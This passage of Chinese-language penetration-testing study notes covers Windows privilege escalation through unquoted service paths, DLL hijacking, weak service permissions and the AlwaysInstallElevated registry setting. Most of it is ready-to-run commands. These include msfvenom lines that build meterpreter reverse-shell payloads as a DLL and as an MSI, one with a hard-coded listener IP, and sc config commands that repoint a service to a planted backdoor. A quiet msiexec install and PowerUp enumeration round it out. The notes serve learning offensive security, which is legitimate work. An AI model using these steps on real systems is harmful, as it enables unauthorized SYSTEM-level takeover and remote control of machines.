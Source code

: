      - 检测脚本：JAWS PowerUp(PowerSploit)
       上传反弹exe，设置好对应执行名后，执行sc start "Macro Expert"
     - 检测命令寻找不带引号服务路径

     ``` shell
     wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
     ```

     - 利用火绒剑进行进程分析加载DLL，一般寻程序DLL利用，使用重命名的方法用后门dll替代原dll。

     ``` shell
     msfvenom -p windows/meterpreter/reverse_tcp lhost=47.94.236.117  lport=4444 -f dll -o xiaodi.dll
     ```

   - 提前信息收集相关软件及DLL问题程序，本地调试成功后覆盖DLL实现利用

   - 如果路径中某一级目录名中存在空格，则可以将制作好的后门程序命名为该目录相同的名字，后缀不变，然后放到跟该目录同级的目录下，当软件运行时会加载运行后门程序，即可实现劫持dll

3. 不安全的服务权限配合MSF-NewServices

   - 原理：即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限，例如，可以直接修改它导致重定向执行文件。

   - 过程：检测服务权限配置-制作文件并上传-更改服务路径指向-调用后成功

   - 检测项目：accesschk PowerUp(PowerSploit)

     ``` shell
     accesschk.exe -uwcqv "administrators" *
     Import-Module .\PowerUp.ps1  //导入脚本模块
     Invoke-AllChecks  //必须先导入脚本才可以执行
     sc config "newservices" binpath="C:\Program.exe" //Program.exe是事先准备好的后门程序，放到和Program Files目录的同级目录下，也就是放到C盘，newservices是找到的有漏洞可被利用的程序
     sc start newservices //启动程序
     ```

4. 补充

   - Web权限一般需等待软件或服务器重启加载服务运行调用。本地用户直接命令启动服务或手工启动服务加载运行调用Web权限一般需等待软件或服务器重启加载服务运行调用。本地用户直接命令启动服务或手工启动服务加载运行调用
   - DLL劫持&引号路径这类一般适用于本地用户，部分WEB权限也可以。但是这个服务权限提权基本在WEB权限不适应，除非WEB权限本身就很高，如JSP后门等

## 注册表

1. 控制台输入gpedit.msc打开本地组策略表，打开管理模板->windows组件->windows installer->始终以提升的权限进行安装，若启用了，则可以直接利用进行提权

2. AlwaysInstallElevated是注册表的一个键值，当其值为1的时候，普通用户即可以system权限安装msi程序。当前用户权限是否能够更改MSI安装时的启用状态，如不能修改则必须为启用方可使用本次提权技术。

3. 获取到webshell后，输入以下命令查看是否存在安全问题

   ``` shell
   reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

4. 利用过程：会话反弹-生成MSI-上传MSI-监听-执行MSI

   - 生成利用的MSI文件:

     ``` shell
     msfvenom -p windows/meterpreter/reverse_tcp lhost=IP  lport=PORT -f msi -o xxx.msi
     ```

   - 执行MSI:

     ``` shell
     msiexec /quiet /qn /i xxx.msi
     ```

     
